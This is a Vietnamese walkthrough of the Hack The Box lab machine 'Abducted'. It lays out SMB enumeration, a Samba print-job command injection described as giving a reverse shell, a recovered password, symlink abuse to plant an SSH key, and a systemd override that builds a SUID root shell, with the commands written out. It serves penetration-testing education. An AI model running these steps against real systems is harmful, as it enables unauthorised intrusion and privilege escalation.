# Khai thác máy ảo Abducted Hackthebox
## Người thực hiện :Trần Minh Đức
### Bước 1: Reconnaissance

 

Đầu tiên tôi sẽ thực hiện câu lệnh 
`sudo nmap -sC -sV -p- -min-rate 5000 < IP máy nạn nhân> `
Để quét tất cả các port và tên dịch vụ phiên bản và các default script trên máy nạn nhân 
Ở đây tôi nhận được 2 dịch vụ chính là SSH trên port 22 và Samba 139 và 445 (TCP) 
Vì phiên bản ssh này giống phiên bản ssh 9.6p1 của máy CCTV chúng ta đã làm nên tôi sẽ check qua sử dụng CVE-2024-6387



nhưng k thành công 
Chúng ta sẽ tiến hành phân tích một chút về dịch vụ Samba. 
>Samba là một mã nguồn mở chạy trên hệ điều hành Linux/Unix nó cho phép tạo ra cầu nối thông dịch giữa window và linux để lưu trữ file tập trung  trên nhân linux

Tiếp theo chúng ta sẽ dùng lệnh 
`smbclient -N -L <IP>`.
Lệnh này giúp chúng ta tương tác máy chủ Samba với tham số:
-N(No-pass): Ra lệnh cho công cụ thực hiện một kết nối ẩn danh,không cần mật khẩu 
-L (List): Yêu cầu máy chủ liệt kê toàn bộ các phân vùng chia sẻ (Shares) đang có công khai trên máy đó.



Sau đó tôi đã dùng lệnh `enum4linux-ng -A <IP>` để sử dụng công cụ enum4linux là tổng hợp các công cụ quản trị mạng để quét bao gồm cả smbclient, rpcclient,nmblookup,....






Từ tất cả tôi thấy được một nguời dùng được quét là Scott . Và 4 phân vùng nhưng chỉ có 2 phân vùng là IPC và HP-Reception cho phép chúng ta access được từ bên ngoài .Tôi đã vào OpenCVE và tìm các CVE liên quan đến 2 dịch vụ này và thấy CVE-2026-4480 


đây là mô tả về CVE này 





Và đây là đoạn code khai thác hacker sẽ thiết lập kết nối ẩn danh Remote Procedure Call đến \pipe\spoolss là dịch vụ quản lí hàng đợi in sau đó kết nối tới máy in mục tiêu . Sau đó khởi tạo phien in khi Samba nhận tài liệu(|sh) này nó sẽ nạp vào biến %J khiến samba gọi lệnh hệ thống thực thi lệnh shell mà k lọc các shell meta character vô tình biến cái tên tài liệu khi nhúng vào terminal lại biến thành 1 lệnh điều hướng mở 1 shell thực thi lệnh reversell




sau khi vào trong kiểm tra qua id ta thấy đây chỉ là 1 guest account giờ chúng ta sẽ phải tìm file chứa password cho tài khoản người dùng thật ta đã thám thính được từ enum4linux `scott` ta sẽ ngó qua file passwd và tìm tất cả các file conf để tìm xem có passwd của ng dùng này không 
sau khi cat tất cả các file conf này tôi tìm được password trong file `/opt/offsite-backup/rclone.conf` 
ở đây ta thấy passwd trong file rcloneconf  đã bị `obscured`



ta sẽ dùng hàm reveal để đưa về dạng ban  đầu `rclone reveal` và sau đó ta đã thu được passwd `iXzvcib3SrpZ` .Sau khi thu dc passwd r ta sẽ ssh vào tài khoản scott 

 

sau đó ta lấy file user.txt



Tiếp ta sẽ chạy lệnh `find / -name "*.conf" 2>/dev/null` để tìm đường dẫn file cấu hình của samba 




Từ 2 file sambaconf này ta thấy 



> Ta thấy được một cấu hình nguy hiểm 
> `wide links = yes`
> `valid users = scott`
> `force user = marcus`

Nó cho phép người dùng tạo ra các liên kết tượng trưng (Symbolic Links / Symlinks) trỏ ra bên ngoài thư mục được chia sẻ, và cho phép Samba đi theo các liên kết đó để đọc/ghi file. Và bất kỳ khi nào user scott tạo ra một file hay làm một hành động gì trong thư mục này, Samba sẽ ép hệ thống thực thi hành động đó dưới danh tính và quyền hạn của user marcus

Đầu tiên ta dùng lệnh `ln -s /home/marcus/ /srv/transfer/mhome` để tạo symlinks trỏ vào nhà của marcus.

Sau khi đã trỏ vào nhà ta dùng lệnh 
`smbclient -U "scott%iXzvcib3SrpZ" //127.0.0.1/transfer -c 'mkdir mhome/.ssh'` 
Cho phép chúng ta thực hiện tương tác tạo thư mục `.ssh` tại `/home/marcus/.ssh` 

Và sau đó chúng ta sẽ tạo 1 symlinks mới để trỏ trực tiếp tới `/home/marcus/.ssh` bằng lệnh `ln -s /home/marcus/.ssh/ /srv/transfer/dot_sh`





Chúng ta sẽ quay trở lại máy kali và dùng lệnh `ssh-keygen -t rsa -f /tmp/marcus_key -N ""` để tạo khóa có type là rsa và filename là marcus_key. nó sẽ tạo ra 2 file là pubkey và private key . 

Sau đó sẽ dùng lệnh `cat /tmp/marcus_key.pub | smbclient -U "scott%iXzvcib3SrpZ" //10.129.24.131/transfer -c 'put - dot_sh/authorized_keys'` bằng cách lấy kết quả trả về từ lệnh cat sau đó thực hiện command put luồng dữ liệu trả về vào file authorized_keys trên home/marcus/.ssh/
Và cuối cùng chúng ta sẽ ssh vào tài khoản marcus và dùng file privatekey để xác thực `ssh -i /tmp/marcus_key marcus@10.129.24.131`.



Ta thấy kết quả trả về group của ng dùng này có cả operators là quyền của nhóm vận hành là quyền ngang root vậy chúng ta sẽ dùng lệnh `find / -group operators -perm -g+w -type d 2>/dev/null` để tìm các type là directory thuộc có quyền của operators và có đối tượng group có quyền write . Và được trả về file service.d file cấu hình bổ sung cho dịch vụ samba sau khi smbd khởi chạy hay reload systemd sẽ thực hiện file conf này dưới quyền root 

 

`cat > /etc/systemd/system/smbd.service.d/override.conf << 'EOF'
[Service]
ExecStartPost=/bin/bash -c "cp /bin/bash /tmp/shell && chmod +s /tmp/shell"
EOF`



khi chúng ta khởi chạy lại dịch vụ nó sẽ tạo 1 bash shell thực hiện command copy file thực thi bash shell vào file /tmp/shell vì trg thư mục này chúng ta có full quyền thực thi khi đang ở user và setuid cho /tmp/shell do đang chạy dư ới quyền root nên khi setuid này chúng ta đang tạo ra một bash shell mang quyền của root
sau đó khởi chạy lại dịch vụ 
`systemctl daemon-reload`
`systemctl restart smbd.service`
Và thực thi file `/tmp/shell -p` với privileged mode để giữ quyền root 

